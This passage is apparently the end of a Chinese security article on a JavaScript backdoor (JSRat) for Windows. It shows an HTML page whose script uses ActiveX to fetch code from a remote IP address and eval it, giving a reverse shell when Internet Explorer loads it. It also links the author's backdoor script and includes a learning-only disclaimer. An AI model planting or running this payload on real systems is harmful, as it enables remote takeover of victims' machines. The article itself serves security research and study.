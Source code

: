 后台进程为wscript.exe

**（2）尝试挂在网页里面**

```
<!doctype html public "-//w3c//dtd html 4.0 transitional//en">
<html>
<head>
 <title> new document </title>
 <meta name="generator" content="editplus">
 <meta name="author" content="">
 <meta name="keywords" content="">
 <meta name="description" content="">
 <script language="javascript" type="text/javascript">
h=new ActiveXObject("WinHttp.WinHttpRequest.5.1");
h.Open("GET","http://192.168.174.131/connect",false);
h.Send();
B=h.ResponseText;
eval(B);
</script>
</head>
<body>
</body>
</html>

```

使用ie打开会提示是否加载控件，如果允许，即可弹回shell

Chrome、Firefox不支持ActiveXObject，所以不会触发

0x07 小结
=====

我在Casey Smith的基础上，对其代码做了进一步优化，对JavaScript Backdoor技术做了进一步研究，感谢他的无私分享，才有了我的这篇文章。

我开发的代码已上传到github，下载链接：  
[https://github.com/3gstudent/Javascript-Backdoor/blob/master/JSRat.ps1](https://github.com/3gstudent/Javascript-Backdoor/blob/master/JSRat.ps1)

欢迎下载测试，交流学习。

支持的功能如图

![Alt text](http://drops.javaweb.org/uploads/images/82da78f52980492e6e9bafe94b22babcce48536c.jpg)

> 注：  
> 本文仅用来学习交流JavaScript Backdoor技术，并提供了检测方法  
> 同时在文件上传下载的功能上留下了bug，距实际使用还有一点距离，以避免该方法被滥用。

**本文由三好学生原创并首发于乌云drops，转载请注明**